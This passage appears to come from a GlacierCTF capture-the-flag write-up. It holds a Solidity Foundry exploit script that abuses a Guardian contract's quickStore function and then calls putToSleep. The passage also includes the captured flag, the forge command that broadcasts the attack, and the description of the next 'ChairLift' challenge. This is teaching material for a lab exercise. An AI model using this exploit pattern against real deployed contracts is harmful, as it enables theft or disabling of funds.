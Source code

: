 `GlacierVaultAttack.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Setup} from "../src/GlacierVault/Setup.sol";
import {Guardian} from "../src/GlacierVault/Guardian.sol";
import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";

contract AttackScript is Script{
    function run() public{
        vm.startBroadcast();
        new Attack{value: 10 ether}().exploit();
        console.log("Attack Success");
        vm.stopBroadcast();
    }
}

contract Attack{
    Setup public setupContract = Setup(0x4b4b43d0E6dc47aC7274EA3a2463C87116282700);
    Guardian public TARGET = Guardian(payable(address(setupContract.TARGET())));
    constructor() payable {
        require(msg.value == 10 ether);
    }
    function exploit() public {
        (bool success, ) = address(TARGET).call{value:1337}(
            abi.encodeWithSignature("quickStore(uint8,uint256)", 0, address(this))
            );
        require(success, "Call failed");
        TARGET.putToSleep();
    }
}

// gctf{h3's_sl33pIng_BuT_ju5t_4_n0w}
```

Run the following command to solve the challenge

```bash
forge script script/GlacierVaultAttack.sol:AttackScript --rpc-url <RPC-URL> --private-key <REDACTED> --broadcast
```


## ChairLift [397pts]

```
Description : 

"After you have defeated the monkeys you see a chairlift that will take you to the summit cross, this is your final step to reach the peak."

author: J4X

nc chall.glacierctf.com 13381

Attached Files : [Setup.sol, ChairLift.sol, Ticket.sol]
```
